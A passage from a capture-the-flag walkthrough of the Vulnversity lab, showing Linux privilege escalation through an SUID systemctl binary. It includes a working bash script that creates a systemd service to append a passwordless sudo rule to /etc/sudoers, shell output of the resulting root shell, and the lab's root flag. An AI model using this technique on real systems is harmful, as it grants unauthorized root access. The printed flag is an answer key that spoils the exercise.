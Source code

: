 We cross-check the files of the previous output with the programs on the _https://gtfobins.github.io/_ page and find out that _/bin/systemctl_ is in our list and is susceptible to SUID exploitation.

Since systemctl is owned by root that means that we can run it with root's permission.  
How do we use this?  
We craft a oneshot service that will execute a malicious instruction and run the service with systemctl!  
But what is the malicious command?  
There are many ways to obtain a root shell, in our case we will add a line to the /etc/sudoers file to give our current user the privilege to use sudo **without password**.

Run

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo \"www-data ALL=(ALL) NOPASSWD:ALL\" | sudo tee -a /etc/sudoers"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Now our current user is able to run commands as superuser without need to authenticate, let's check it:

```bash
www-data@vulnuniversity:/$ sudo ls /root
root.txt
```

To obtain a root shell:

```bash
www-data@vulnuniversity:/$ sudo /bin/bash
root@vulnuniversity:/# whoami
root
root@vulnuniversity:/#
```

Now we are root.

**Question:** On the system, search for all SUID files. Which file stands out? **/bin/systemctl**  
**Question:** What is the root flag value?  
As for bill's flag the most logical course of action is to look in the /root folder

```bash
root@vulnuniversity:/# cd /root
root@vulnuniversity:~# ls
root.txt
root@vulnuniversity:~# cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

So the answer is **a58ff8579f0a9270368d33a9966c7fd5**

This concludes the Vulnversity room, see you in the next one!

